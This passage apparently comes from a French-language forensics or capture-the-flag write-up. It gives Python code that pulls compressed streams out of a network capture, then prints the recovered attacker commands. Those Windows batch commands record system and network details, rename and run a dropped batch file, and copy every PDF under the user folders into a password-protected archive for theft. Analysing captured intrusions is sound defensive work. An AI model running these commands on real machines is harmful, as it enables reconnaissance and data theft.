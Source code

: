 ```python
                            body = buff[11:]
                            x, length, blk = struct.unpack(">IIH", header)

                            # beginning of a new stream, dump the existing data
                            if blk == 0 and data:
                                fd = open("file{0:02}".format(i), "w")
                                fd.write(zlib.decompress(data))
                                fd.close()
                                i += 1
                                data = ""

                            data += body

                continue
    except pcapy.PcapError:
        break

if data:
    fd = open("file{0:02}".format(i+1), "w")
    fd.write(zlib.decompress(data))
    fd.close()
```

Cela génère des fichiers 0 à 10 dont voici le contenu :  

```plain
mkdir c:\\windows\\a
c:\windows\a
@echo off 
echo %computername% >> c:\windows\a\%computername%_base.dat 
qwinsta >> c:\windows\a\%computername%_base.dat 
date /t >> c:\windows\a\%computername%_base.dat 
time /t >> c:\windows\a\%computername%_base.dat 
ipconfig /all >> c:\windows\a\%computername%_base.dat 
nbtstat -n >> c:\windows\a\%computername%_base.dat 
systeminfo >> c:\windows\a\%computername%_base.dat 
set >> c:\windows\a\%computername%_base.dat 
net share >> c:\windows\a\%computername%_base.dat 
net start >> c:\windows\a\%computername%_base.dat 
tasklist /v >> c:\windows\a\%computername%_base.dat 
netstat -ano >> c:\windows\a\%computername%_base.dat 
dir c:\ /a >> c:\windows\a\%computername%_base.dat 
dir d:\ /a >> c:\windows\a\%computername%_base.dat 
dir c:\progra~1 >> c:\windows\a\%computername%_base.dat 
dir c:\docume~1 >> c:\windows\a\%computername%_base.dat 
net view /domain >> c:\windows\a\%computername%_base.dat 
dir
rename e76a523f1b.dat 1.bat
dir
1.bat
dir
VICTIM_base.dat
@echo off 
cd c:\users && for /r %%i in (*.pdf) do copy "%%i" c:\windows\a\
cd c:\windows\a && a.exe a -hpqazWSXedc567 o.dat *.pdf
```
